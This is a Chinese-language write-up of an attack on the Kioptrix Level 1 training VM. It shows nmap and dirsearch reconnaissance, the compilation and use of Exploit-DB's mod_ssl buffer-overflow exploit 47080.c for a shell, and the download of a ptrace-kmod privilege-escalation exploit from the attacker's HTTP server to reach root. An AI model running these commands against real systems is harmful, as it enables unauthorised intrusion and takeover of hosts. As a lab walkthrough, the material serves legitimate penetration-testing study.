+++
date = '2026-06-21T17:53:01+08:00'
draft = false
title = 'Kioptix level1'
+++

## 信息收集

```
ip -br a
nmap 192.168.159.0/24 -sn -min-rate 2222 -r
mkdir nmap_results
nmap 192.168.159.134 -p- -min-rate 2222 -r -PN -oA nmap_results/port_scan  ##到这就能扫出来一些开放的端口服务
```



```
ls nmap_results/
cat nmap_results/port_scan.nmap | grep open ## 方便去做指纹探测
```



```
nmap 192.168.159.134 -p 22,80,111,139,443,1024,65529 -sV -sC --version-all -oA nmap_results/server_info
## 服务版本系统扫描
```

扫出来的结果：

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-16 22:01 +0800 Nmap scan report for 192.168.159.134 Host is up (0.00060s latency). PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 2.9p2 (protocol 1.99) | ssh-hostkey: | 1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1) | 1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA) |_ 1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA) |_sshv1: Server supports SSHv1 80/tcp open http Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b) | http-methods: |_ Potentially risky methods: TRACE |_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b |_http-title: Test Page for the Apache Web Server on Red Hat Linux 111/tcp open rpcbind 2 (RPC #100000) | rpcinfo: | program version port/proto service | 100000 2 111/tcp rpcbind | 100000 2 111/udp rpcbind | 100024 1 1024/tcp status |_ 100024 1 1024/udp status 139/tcp open netbios-ssn Samba smbd (workgroup: 4MYGROUP) 443/tcp open ssl/https Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b |_ssl-date: 2026-06-16T14:03:23+00:00; +1m52s from scanner time. |_http-title: 400 Bad Request | ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=-- | Not valid before: 2009-09-26T09:32:06 |_Not valid after: 2010-09-26T09:32:06 |_http-server-header: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b | sslv2: | SSLv2 supported | ciphers: | SSL2_RC2_128_CBC_EXPORT40_WITH_MD5 | SSL2_RC4_128_WITH_MD5 | SSL2_RC2_128_CBC_WITH_MD5 | SSL2_DES_192_EDE3_CBC_WITH_MD5 | SSL2_RC4_128_EXPORT40_WITH_MD5 | SSL2_DES_64_CBC_WITH_MD5 |_ SSL2_RC4_64_WITH_MD5 1024/tcp open status 1 (RPC #100024) 65529/tcp closed unknown MAC Address: 00:0C:29:73:A5:97 (VMware) Host script results: |_clock-skew: 1m51s |_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown) |_smb2-time: Protocol negotiation failed (SMB2) Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 22.55 seconds
```

🔥 1️⃣ HTTP（80端口）——最重要入口
Apache 1.3.20
mod_ssl 2.8.4
OpenSSL 0.9.6b

👉 这是经典老漏洞组合（Kioptrix核心点）

✔ Apache 1.3.x（非常老）
✔ mod_ssl 2.8.x（历史漏洞爆发点）
✔ OpenSSL 0.9.6b（古董级）

👉 结论：

💣 80/443 是主攻击面

🔥 2️⃣ Samba（139端口）
Samba smbd (workgroup: 4MYGROUP)

👉 可能存在：

匿名访问
旧版本漏洞
信息泄露
🔥 3️⃣ RPC / portmap（111 + 1024）
rpcbind
status service

👉 常见用途：

枚举远程服务
NFS / RPC 依赖
信息泄露辅助

## 漏洞发现

去查看80，443查看web没啥用，然后对这个dirsearch进行目录扫描

```
dirsearch -u http://192.168.159.134
```



去看了没啥用感觉

现在去看看刚才得出的apache1.3.20版本有没什么漏洞，searchsploit = 在本地 Exploit-DB 里搜索漏洞利用代码

```
searchsploit Apache 1.3   
```



这个编号为67的远程代码执行就是我们可以利用的，



这里其实是我看b站上的博主的进攻思路，但是应该是gcc版本问题，我这个没有编译成功产生a.out文件，后续不能通过这个拿到shell



这里是没戏了，去找之前看到的**mod_ssl**

## 利用漏洞拿到shell权限

****

**mod_ssl是什么**

mod_ssl是apache里面的模块，让apache支持THTTPS（SSL/TLS）加密通信的组件，有了mod_ssl才能提供HTTPS加密，让请求加密

去https://www.exploit-db.com/漏洞库里面去搜mod_ssl看看



远程缓冲区溢出漏洞吗，漏洞本质是

```
Apache + mod_ssl + OpenSSL 的旧版本在处理 SSLv2 请求时存在缓冲区溢出。
攻击脚本构造异常 SSL 握手数据，触发 Apache 子进程溢出，从而执行 shellcode。
```

```
searchsploit mod_ssl  查找漏洞库
```



然后比对，发现这个这三个.c文件都符合，这里我们使用47080.c来执行攻击

先要把这个.c源文件给下载下来，searchsploit -m unix/remote/47080.c

然后使用 gcc 47080.c -o 47080 -lcrypto  解读   gcc <源文件> -o <输出文件名> <链接库>  执行编译

ls -l 47080来检查成功没有  看到以又rwx这种算是成功了

      

这里成功执行了之后看这个，应该是要我们使用target指定target 编号 + 靶机 IP + 端口 + 连接数量

`target` 是这个 exploit 里的**目标环境编号**。不同系统的的内存溢出跳的位置不一样，所以需要告诉exploit靶机需要按照哪个目标系统的内存布局去构造攻击数据。

#### 如何自己找target

使用  |  grep 来筛选目标

重点就是之前信息收集收集到的apache,linux，mod_ssl版本

./47080 2>&1 | grep -Ei "redhat|1.3.20"   使用这个命令通过正则匹配apache版本，和radhatlinux来筛选出符合条件的


这里就筛选出来的两个，两个都去试，这个0x6b就是成功的，拿到shell了

./47080 0x6b 192.168.159.134 443 -c 40



## 提权拿到root权限

这里信息收集看到我们当前用户为apache(uid=48)，是个普通用户



这里看到的反馈就是成功拿到bash但是这个自动提权失败了，这里这个自动提权就是把普通用户给提权到root权限的，现在根据这个网址去下载提权脚本



开启kali的http服务让靶机能通过kali来下载提权脚本下来

```
sudo python3 -m http.server 80 开启http服务，80端口
```

开启了这个80端口日志之后就可以在浏览器找到kali的80端口下载这个提权文件



下载成功直接去编译这个提权脚本   gcc ptrace-kmod.c -o ptrace-kmod，然后运行就ok



这里成功之后运行查询id ,成功变成root权限，渗透成功


